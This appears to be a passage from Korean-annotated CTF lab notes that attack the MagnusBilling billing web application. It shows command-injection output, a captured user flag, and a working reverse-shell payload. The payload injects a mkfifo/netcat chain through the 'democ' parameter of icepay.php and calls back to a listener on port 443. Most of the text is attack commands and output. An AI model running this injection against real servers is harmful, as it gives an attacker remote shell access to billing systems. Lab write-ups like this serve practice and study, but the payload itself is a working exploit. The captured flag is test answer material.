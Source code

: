 ┌──(root㉿docker-desktop)-[/]
└─# http http://10.10.13.178/mbilling/lib/sangwoo.txt
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Length: 60
Content-Type: text/plain
Date: Sun, 01 Jun 2025 11:57:24 GMT
ETag: "3c-6368156c3084c"
Keep-Alive: timeout=5, max=100
Last-Modified: Sun, 01 Jun 2025 11:56:34 GMT
Server: Apache/2.4.62 (Debian)

uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)

┌──(root㉿docker-desktop)-[/]
└─#

# 이후 결과 확인

http http://10.10.13.178/mbilling/lib/user.txt
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Length: 38
Content-Type: text/plain
Date: Sun, 01 Jun 2025 12:31:58 GMT
ETag: "26-63681d52221c2"
Keep-Alive: timeout=5, max=100
Last-Modified: Sun, 01 Jun 2025 12:31:54 GMT
Server: Apache/2.4.62 (Debian)

THM{4a6831d5f124b25eefb1e92e0f0da4ca}

# 리버스쉘 2차 시도 성공

nc -lvnp 443
curl 'http://10.10.13.178/mbilling/lib/icepay/icepay.php' \
 --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 443 >/tmp/f;'

---

## ✅ 2차 시도 리버스 셸 명령어 (성공한 버전)

```bash
curl 'http://10.10.13.178/mbilling/lib/icepay/icepay.php' \
 --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 443 >/tmp/f;'
```

---
